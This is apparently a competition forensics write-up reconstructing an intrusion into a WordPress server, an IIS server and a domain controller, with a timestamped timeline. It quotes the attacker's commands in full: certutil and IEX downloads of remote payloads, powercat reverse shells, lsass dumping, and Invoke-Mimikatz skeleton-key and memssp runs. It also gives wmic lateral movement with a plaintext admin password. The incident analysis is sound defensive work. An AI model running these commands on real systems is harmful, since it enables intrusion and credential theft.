 # T5-fornesis

by asef18766(陳兆閔) and YingMuo(彭建霖)

## how attack
* ubuntu wordpress web server : ```CVE-2019-9978``` to get webshell and ```sqlmap``` to get wropress admin account

* windows IIS server : ```CVE-2020-0688``` (awaiting to determinate) attack and create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1)

* windows dc server : in IIS server execute ```Sqldumper.exe  468 0 0x01100``` dumps the process with pid ```468```(probably ``` lsass.exe```) and use Minikatz to get dc's admin 's account and password (/user:TEAMT5\Administrator /password:admin12345!!!) and connect by IIS server

## Horizon move
* ubuntu -> IIS : post bt.ext and nt.exe by tunnel

* IIS -> dc : create process ipconfig.exe via ```"c:\windows\system32\cmd.exe" /c wmic /node:192.168.1.4 /user:TEAMT5\Administrator /password:admin12345!!! process call create "ipconfig.exe"```

## timeline

* 2020/8/3 AM 09:38:35, ```CVE-2019-9978``` and post shell, ```bt.exe```, ```nt.exe``` by ```10.20.3.131``` (ubuntu web server)

* 2020/8/4 AM 08:42:33 ```CVE-2020-0688``` (awaiting to determinate) (windows IIS)

* 2020/8/4 AM 08:48:26 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.3.88``` with role ```SYSTEM``` (windows IIS)

* 2020/8/4 AM 08:49:26, start to ```sqlmap``` by ```10.20.2.227``` (ubuntu web server)

* 2020/8/4 AM 08:51:25 execute ```Sqldumper.exe  468 0 0x01100``` dumps the process with pid ```468```(probably ``` lsass.exe```) (windows IIS)

* 2020/8/4 AM 09:12:51 execute ```certutil.exe  -urlcache -split -f http://192.168.1.2/nt.exe nt.exe``` to download ```nt.exe``` from ubuntu server (windows IIS)

* 2020/8/4 AM 09:13 execute ```nt.exe``` with various parameter (windows IIS)
    * -help
    * /h

* 2020/8/4 AM 09:16:02 execute ```certutil.exe  -urlcache -split -f http://192.168.1.2/bt.exe bt.exe``` to download ```bt.exe``` from ubuntu server (windows IIS)

* 2020/8/4 AM 09:16:29 execute ```bt.exe 192.168.1.0/24``` in ```C:\Users\Public\Music\``` (windows IIS)

* 2020/8/4 AM 09:16:31, tunnel (npv) start (ubuntu web server)

* 2020/08/04:09:23:44, invoke Mimikatz via ```cmd.exe /Q /c IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" 1> \\127.0.0.1\ADMIN$\__1596450222.629457 2>&1``` by ```WIN-LN8SES7K1Q5$``` (windows DC)

* 2020/8/4 AM 09:24:46, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'" ``` by ``` Administrator ``` (windows DC)

* 2020/8/4 AM 09:24:46, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'" ``` by ``` Administrator ``` (windows DC)

* 2020/8/4 AM 09:26:37, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" ``` by ``` Administrator ``` (windows DC)

* 2020/8/4 AM 09:26:37, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" ``` by ``` Administrator ``` (windows DC)

* 2020/8/4 AM 09:42:07, use tunnel scan internet (ubuntu web server)

* 2020/8/4 AM 09:45:56, login wordpress with admin account by ```10.20.2.165``` (ubuntu web server)

* 2020/8/4 AM 10:23:15, use tunnel request ```http://192.168.1.3/Umbraco/aaaa.aspx``` it's old webshell (ubuntu web server)

* 2020/8/4 PM 10:15:48, use tunnel request ```http://192.168.1.2/admine21_decode.php``` I don't know what it mean (ubuntu web server)

* 2020/8/4 PM 11:04:21, use tunnel request ```http://192.168.1.3/umbraco/AspxSpy2014Final.aspx``` it's webshell (ubuntu web server)

* 2020/8/4 PM 11:07:16, use tunnel request ```http://192.168.1.3/umbraco/bbbb.aspx``` it's webshell (ubuntu web server)

* 2020/8/5 AM 07:34:16 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.3.88``` (windows IIS)

* 2020/8/5 AM 08:58:20 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.2.165``` (windows IIS)

* 2020/8/5 AM 09:07:15 download string from ```http://10.20.2.206/test.txt``` as ```test.aspx``` (windows IIS)


* 2020/8/5 PM 10:07:07 create [aspx webshell](https://raw.githubusercontent.com/tennc/webshell/master/aspx/AspxSpy2014Final.aspx) at ```inetpub/wwwroot/UmbracoCms/Umbraco``` (windows IIS)

* 2020/8/5 PM 10:25:34 RPC ```192.168.1.4``` via ```"c:\windows\system32\cmd.exe" /c wmic /node:192.168.1.4 /user:TEAMT5\Administrator /password:admin12345!!! process call create "ipconfig.exe"``` (windows IIS)

* 2020/8/5 PM 10:25:34, execute ipconfig.exe by ```TEAMT5\Administrator``` (windows DC)

* 2020/8/5 PM 10:26:13 invoke Mimikatz via ```c:\windows\system32\cmd.exe" /c wmic process call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'\"``` to create password skeleton key (windows IIS)

* 2020/8/5 PM 10:26:25 invoke Mimikatz via ```wmic  process call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'\""``` to modify ```lsass.exe``` (windows IIS)

* 2020/8/5 PM 10:27:32 ```"c:\windows\system32\cmd.exe" /c net use z: \\WIN-LN8SES7K1Q5\C$ /user:TEAMT5\Administrator mimikatz``` (windows IIS)

[time graph link](https://time.graphics/embed?v=1&id=463591)